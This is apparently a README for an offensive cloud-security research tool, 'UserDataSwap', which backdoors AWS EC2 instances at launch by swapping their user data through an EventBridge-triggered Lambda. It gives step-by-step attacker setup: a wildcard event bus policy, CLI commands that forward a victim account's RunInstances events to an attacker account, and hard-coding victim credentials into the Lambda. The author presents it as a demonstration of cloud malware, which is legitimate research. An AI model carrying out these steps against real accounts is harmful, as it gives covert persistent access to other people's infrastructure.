# UserDataSwap

User data swap is an example of an automated lambda function that runs that swaps out user data on RunInstance events. The original user data script is restored after ours is run.

This exists as an example of how an attacker could semi-covertly backdoor EC2 instances on creation. The API calls will stand out, but from the user's perspective the instance is simply taking longer to start up. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

Currently there is a five minute delay between when the new instance comes up and when it is backdoored, this is to work around issues with bootstrapping at the moment. Hope to find another way to do this in the future, but we'll see.

## Wish List
* Play nicely with bootstrapping (User Data or the Terraform SSH provider) without adding a delay.
* Target individual instances or tags
* Configurable options for logging, commands run at boot, etc.

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only requires `events:PutRule` and `events:PutTargets` permissions. I'll likely add support for this in the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the UserDataSwap account, probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one of the ways to get override the lack of permissions assigned to the the put-event rule to avoid needing iam:PassRole and an appropriate role already configured in the victim account. It may be possible to reduce these permissions, need to do more testing here though.

* In the UsereDataSwap account:
  * In the UserDataSwap lambda account create a new event bus named `run-instance-trigger` and give it the following resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up a rule to trigger the UserDataSwap function with the following event config.
    ```
    {
      "source": [
        "aws.ec2"
      ],
      "detail": {
        "eventSource": [
          "ec2.amazonaws.com"
        ],
        "eventName": [
          "RunInstances"
        ]
      }
    }
    ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule --name run-instance-trigger --state ENABLED --event-bus-name default --event-pattern '{
      "source": ["aws.ec2"],
      "detail": {      
        "eventSource": ["ec2.amazonaws.com"],
        "eventName": ["RunInstances"]
      }
    }'
    ```
  * Add a target to forward to the event-bus in the UserDataSwap account:
    ```
    aws events put-targets --rule run-instance-trigger --event-bus-name default --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the UserDataSwap triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack with different pros/cons take a look at [EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on [my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Takeaway

What I was hoping to demonstrate is what I described as Cloud Malware in my talk doesn't need to be complex.

## Requirements

* AWS CLI already configured with Administrator permission
* [Docker installed](https://www.docker.com/community-edition)
* [Golang](https://golang.org)
* SAM CLI - [Install the SAM CLI](https://docs.aws.amazon.com/serverless-application-model/latest/developerguide/serverless-sam-cli-install.html)

## Setup process

### Installing dependencies & building the target 

```shell
make build
```

## Deployment

```bash
make deploy
```

### Testing

TODO
